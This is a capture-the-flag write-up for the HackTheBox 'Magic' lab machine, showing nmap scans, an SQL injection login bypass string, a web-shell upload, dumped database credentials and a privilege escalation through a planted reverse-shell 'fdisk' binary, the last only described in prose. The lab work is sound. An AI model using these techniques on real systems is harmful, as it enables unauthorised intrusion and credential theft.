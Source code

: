 ```yaml
---
title: HTB - Magic
author: z3nn
date: 2020-09-18 20:31:00 +0200
description: HackTheBox Magic Linux box
tags: [hackthebox, htb, magic, linux]
---
```


# HackTheBox - Magic

A write-up to the Magic box on HackTheBox
> Some information might be missing due to the fact that I've finished this box when it was released and didn't document it as best as I should've.

## Recon phase

```shell
# nmap -sV -sC -oA magic 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

First recon reveals that we have an Apache webserver running on `port 80`. Running a vuln scan might reveal more info for us...

```shell
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Warning: 10.10.10.185 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.185
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags: 
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.185
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.185:80/login.php
|     Form id: login-form
|_    Form action: 
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /login.php: Possible admin folder
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Magic Portfolio
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|     	CVE-2019-0211	7.2	https://vulners.com/cve/CVE-2019-0211
|     	CVE-2018-1312	6.8	https://vulners.com/cve/CVE-2018-1312
|     	CVE-2017-15715	6.8	https://vulners.com/cve/CVE-2017-15715
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2018-17199	5.0	https://vulners.com/cve/CVE-2018-17199
|     	CVE-2018-1333	5.0	https://vulners.com/cve/CVE-2018-1333
|     	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|     	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
|     	CVE-2018-11763	4.3	https://vulners.com/cve/CVE-2018-11763
|_    	CVE-2018-1283	3.5	https://vulners.com/cve/CVE-2018-1283
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 169.85 seconds
```

## Exploit 

Here we see interesting things start showing, we have a `/login.php` which contains a basic login form. After some extensive and really un-necessary research... the form is vulnerable to basic SQL Injection

* open Burp Suite and intercept the post request
* use a basic injection like ' or ''='   
* we're in...

We are redirected to the `upload.php` page, here I used [WhiteWinterWolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell#wwwolfs-php-web-shell)'s php web shell to aid in my exploit ... basically I used this to upload another file that I used for a reverse shell.


## Foothold

Enumerating... or what I actually do... snooping around led me to some interesting contents in the `db.php5` file

```php
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

From this we can try and dump the sql database and see what we can find in it.

```shell
$ mysqldump -utheseus -piamkingtheseus Magic
```

And the results
```shell
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

Here we get a new set of credentials which we can use to switch to user `theseus`
```shell
su theseus
```

> Get user flag

## PrivEsc
Enumerating which binaries can be executed by this user we find that sysinfo is one of them

The solution I found was an fdisk file that can contain a reverse shell that would be executed with root access by running sysinfo.

> Get root flag
